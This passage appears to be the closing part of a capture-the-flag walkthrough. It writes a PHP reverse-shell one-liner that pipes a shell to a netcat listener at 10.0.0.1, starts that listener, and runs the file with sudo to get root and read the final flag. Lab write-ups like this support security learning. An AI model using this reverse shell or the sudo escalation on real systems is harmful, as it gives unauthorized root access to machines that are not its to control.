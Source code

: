 ```
$ echo '<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1235 >/tmp/f"); ?>' > reverse_shell.php
```

Now, we need to start another netcat listener on our host (the attacker):

```
$ nc -lvnp 1235
```

And now, we have to execute our new file with `sudo` in order to get our root reverse shell:

```
$ sudo /usr/bin/php reverse_shell.php
```

Finally, we are root and we can get our last flag, the `root.txt`:

```
# cat /root/root.txt
```

*Enjoy! ;)*
